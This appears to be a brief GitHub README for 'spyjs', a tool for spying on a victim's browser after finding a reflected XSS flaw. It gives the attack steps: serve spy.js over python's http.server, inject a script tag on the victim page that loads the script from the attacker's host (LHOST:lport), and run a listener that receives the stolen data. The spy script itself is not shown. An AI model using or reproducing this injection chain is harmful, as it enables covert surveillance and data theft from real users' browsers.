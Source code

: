 # spyjs
Simple js sample to spy on browser, when reflacted xss found


Start server to serve js
```bash
python3 -m http.server 8080
```

Do on victim
```js
 <script src="http://LHOST:lport/spy.js"></script>
```

start listener
```bash
python3 listen.py 
```

when triggered
![Screenshot](/imgs/callbk.png)


![Screenshot](/imgs/recv.png)




